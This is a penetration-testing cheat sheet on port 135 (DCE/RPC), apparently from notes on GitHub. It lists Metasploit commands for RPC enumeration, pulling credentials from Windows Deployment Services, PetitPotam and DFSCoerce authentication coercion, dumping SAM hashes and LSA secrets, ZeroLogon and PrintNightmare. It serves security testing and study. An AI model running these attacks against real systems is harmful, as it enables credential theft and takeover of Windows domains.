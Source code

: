 # 135 - DCE/RPC

## Available Metasploit Options - Info Gathering

    msf > use auxiliary/scanner/dcerpc/endpoint_mapper
    msf > use auxiliary/scanner/dcerpc/hidden
    msf > use auxiliary/scanner/dcerpc/management
    msf > use auxiliary/scanner/dcerpc/tcp_dcerpc_auditor

**Reference:** https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/dcerpc/

## Windows Deployment Service RPC - Retrieves Unattend File
This module retrieves the client unattend file from Windows Deployment Services RPC service and parses out the stored credentials.

    msf > use auxiliary/scanner/dcerpc/windows_deployment_services

## PetitPotam 
PetitPotam Exploit Coerces an authentication attempt over SMB to other machines via MS-EFSRPC methods.
1. Set up SMB Server to Capture Traffic:
   
        Msf > use auxiliary/server/capture/smb
        set Verbose True 
2. Run Petitpotam exploit
   
        Msf > use auxiliary/scanner/dcerpc/petitpotam
        Set RHOSTS
        Set Listener
        Set SMBUser
        Set SMBPass
        Set Pipe lsarpc (ex: lsarpc,efsrpc,samr, lsass, netlogon)

**Reference:** https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/dcerpc/petitpotam 

## DFS Coerce 
Coerce an authentication attempt over SMB to other machines via MS-DFSNM methods.

1. Set up SMB Server to Capture Traffic: 

        Msf > use auxiliary/server/capture/smb
        set Verbose True 

2. Run dfscoerce
   
        msf > use auxiliary/scanner/dcerpc/dfscoerce

**Reference:** https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/scanner/dcerpc/dfscoerce 

## Windows Secret Dump 
Dumps SAM hashes and LSA secrets (including cached creds) from the remote Windows target without executing any agent locally.
A privileged user is required to run 

    msf > use auxiliary/gather/windows_secrets_dump

**Reference:** https://www.infosecmatter.com/metasploit-module-library/?mm=auxiliary/gather/windows_secrets_dump 

## ZeroLogin Exploit - Netlogon Weak Cryptographic Authentication 
This module leverages the vulnerability to reset the machine account password to an empty string, which will then allow the attacker to authenticate as the machine account. After exploitation, it's important to restore this password to it's original value. Failure to do so can result in service instability.

    msf > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon

## PrintNightmare Exploit - Print Spooler Remote DLL Injection 
The print spooler service can be abused by an authenticated remote attacker to load a DLL through a crafted DCERPC request, resulting in remote code execution as NT AUTHORITY\SYSTEM. This module uses the MS-RPRN vector which requires the Print Spooler service to be running.

1. Set up SMB Server to Capture Traffic: 

        Msf > use auxiliary/server/capture/smb 
        set verbose True 

2. Run PrintNightmare

       msf > use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare
